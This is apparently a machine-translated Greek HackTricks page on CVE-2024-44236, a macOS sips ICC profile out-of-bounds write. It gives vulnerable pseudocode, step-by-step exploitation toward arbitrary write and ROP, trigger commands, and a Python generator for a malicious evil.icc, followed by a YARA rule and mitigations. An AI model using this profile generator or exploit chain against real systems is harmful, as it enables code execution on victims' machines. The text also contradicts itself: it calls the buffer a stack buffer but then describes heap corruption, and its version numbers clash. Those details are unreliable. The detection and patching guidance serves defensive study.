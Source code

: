 # WWW2Exec - sips ICC Profile Out-of-Bounds Write (CVE-2024-44236)

{{#include ../../banners/hacktricks-training.md}}

## Επισκόπηση

Μια ευπάθεια **zero-write** εκτός ορίων στον αναλυτή προφίλ ICC του **Scriptable Image Processing System** (`sips`) της Apple macOS (macOS 15.0.1, `sips-307`) επιτρέπει σε έναν επιτιθέμενο να διαφθείρει τα μεταδεδομένα της στοίβας και να μετατρέψει την πρωτογενή εκτέλεση σε πλήρη εκτέλεση κώδικα. Το σφάλμα βρίσκεται στη διαχείριση του πεδίου `offsetToCLUT` των ετικετών `lutAToBType` (`mAB `) και `lutBToAType` (`mBA `). Εάν οι επιτιθέμενοι ορίσουν `offsetToCLUT == tagDataSize`, ο αναλυτής διαγράφει **16 bytes πέρα από το τέλος του buffer της στοίβας**. Η ψεκασμός της στοίβας επιτρέπει στον επιτιθέμενο να μηδενίσει τις δομές του αλγορίθμου κατανομής ή τους δείκτες C++ που θα αναφερθούν αργότερα, παράγοντας μια αλυσίδα **arbitrary-write-to-exec** (CVE-2024-44236, CVSS 7.8).

> Η Apple διόρθωσε το σφάλμα στο macOS Sonoma 15.2 / Ventura 14.7.1 (30 Οκτωβρίου 2024). Μια δεύτερη παραλλαγή (CVE-2025-24185) διορθώθηκε στο macOS 15.5 και iOS/iPadOS 18.5 στις 1 Απριλίου 2025.

## Ευάλωτος Κώδικας
```c
// Pseudocode extracted from sub_1000194D0 in sips-307 (macOS 15.0.1)
if (offsetToCLUT <= tagDataSize) {
// BAD ➜ zero 16 bytes starting *at* offsetToCLUT
for (uint32_t i = offsetToCLUT; i < offsetToCLUT + 16; i++)
buffer[i] = 0;            // no bounds check vs allocated size!
}
```
## Exploitation Steps

1. **Δημιουργία ενός κακόβουλου `.icc` προφίλ**

* Ρυθμίστε μια ελάχιστη κεφαλίδα ICC (`acsp`) και προσθέστε μία ετικέτα `mAB ` (ή `mBA `).
* Διαμορφώστε τον πίνακα ετικετών έτσι ώστε το **`offsetToCLUT` να ισούται με το μέγεθος της ετικέτας** (`tagDataSize`).
* Τοποθετήστε δεδομένα που ελέγχονται από τον επιτιθέμενο αμέσως μετά την ετικέτα έτσι ώστε οι 16 μηδενικές εγγραφές να επικαλύπτουν τα μεταδεδομένα του αλγορίθμου κατανομής.

2. **Ενεργοποίηση ανάλυσης με οποιαδήποτε λειτουργία sips που αγγίζει το προφίλ**

```bash
# verification path (no output file needed)
sips --verifyColor evil.icc
# or implicitly when converting images that embed the profile
sips -s format png payload.jpg --out out.png
```

3. **Διαφθορά μεταδεδομένων σωρού ➜ αυθαίρετη εγγραφή ➜ ROP**
Στον προεπιλεγμένο **`nano_zone` αλγόριθμο κατανομής** της Apple, τα μεταδεδομένα για τις θέσεις 16 byte βρίσκονται **άμεσα μετά** από το ευθυγραμμισμένο slab 0x1000. Τοποθετώντας την ετικέτα του προφίλ στο τέλος ενός τέτοιου slab, οι 16 μηδενικές εγγραφές καταστρέφουν το `meta->slot_B`. Μετά από μια επόμενη `free`, ο μολυσμένος δείκτης εισάγεται στη μικρή λίστα ελεύθερων, επιτρέποντας στον επιτιθέμενο **να κατανομήσει ένα ψεύτικο αντικείμενο σε μια αυθαίρετη διεύθυνση** και να αντικαταστήσει έναν δείκτη vtable C++ που χρησιμοποιείται από το sips, τελικά μεταφέροντας την εκτέλεση σε μια αλυσίδα ROP που αποθηκεύεται στο κακόβουλο buffer ICC.

### Quick PoC generator (Python 3)
```python
#!/usr/bin/env python3
import struct, sys

HDR = b'acsp'.ljust(128, b'\0')          # ICC header (magic + padding)
TAGS = [(b'mAB ', 132, 52)]              # one tag directly after header
profile  = HDR
profile += struct.pack('>I', len(TAGS))  # tag count
profile += b''.join(struct.pack('>4sII', *t) for t in TAGS)

mab = bytearray(52)                      # tag payload (52 bytes)
struct.pack_into('>I', mab, 44, 52)      # offsetToCLUT = size (OOB start)
profile += mab

open('evil.icc', 'wb').write(profile)
print('[+] Wrote evil.icc (%d bytes)' % len(profile))
```
### Κανόνας ανίχνευσης YARA
```yara
rule ICC_mAB_offsetToCLUT_anomaly
{
meta:
description = "Detect CLUT offset equal to tag length in mAB/mBA (CVE-2024-44236)"
author       = "HackTricks"
strings:
$magic = { 61 63 73 70 }          // 'acsp'
$mab   = { 6D 41 42 20 }          // 'mAB '
$mba   = { 6D 42 41 20 }          // 'mBA '
condition:
$magic at 0 and
for any i in (0 .. 10):           // up to 10 tags
(
($mab at 132 + 12*i or $mba at 132 + 12*i) and
uint32(132 + 12*i + 4) == uint32(132 + 12*i + 8) // offset == size
)
}
```
## Impact

Το άνοιγμα ή η επεξεργασία ενός κατασκευασμένου ICC profile οδηγεί σε απομακρυσμένη **εκτέλεση αυθαίρετου κώδικα** στο πλαίσιο του καλούντος χρήστη (Preview, QuickLook, Safari image rendering, Mail attachments, κ.λπ.), παρακάμπτοντας τον Gatekeeper επειδή το προφίλ μπορεί να ενσωματωθεί μέσα σε αλλιώς ακίνδυνες εικόνες (PNG/JPEG/TIFF).

## Detection & Mitigation

* **Patch!** Βεβαιωθείτε ότι ο υπολογιστής εκτελεί macOS ≥ 15.2 / 14.7.1 (ή iOS/iPadOS ≥ 18.1).
* Αναπτύξτε τον κανόνα YARA παραπάνω σε πύλες email και λύσεις EDR.
* Αφαιρέστε ή καθαρίστε τα ενσωματωμένα ICC profiles με `exiftool -icc_profile= -overwrite_original <file>` πριν από περαιτέρω επεξεργασία σε μη αξιόπιστα αρχεία.
* Ενισχύστε το Preview/QuickLook εκτελώντας τα μέσα σε sandboxed “transparency & modernisation” VMs κατά την ανάλυση άγνωστου περιεχομένου.
* Για DFIR, αναζητήστε πρόσφατη εκτέλεση του `sips --verifyColor` ή φορτώσεις βιβλιοθηκών `ColorSync` από sandboxed εφαρμογές στο ενοποιημένο log.

## References

* Trend Micro Zero Day Initiative advisory ZDI-24-1445 – “Apple macOS ICC Profile Parsing Out-of-Bounds Write Remote Code Execution (CVE-2024-44236)”
https://www.zerodayinitiative.com/advisories/ZDI-24-1445/
* Apple security updates HT213981 “About the security content of macOS Sonoma 15.2”
https://support.apple.com/en-us/HT213981

{{#include ../../banners/hacktricks-training.md}}
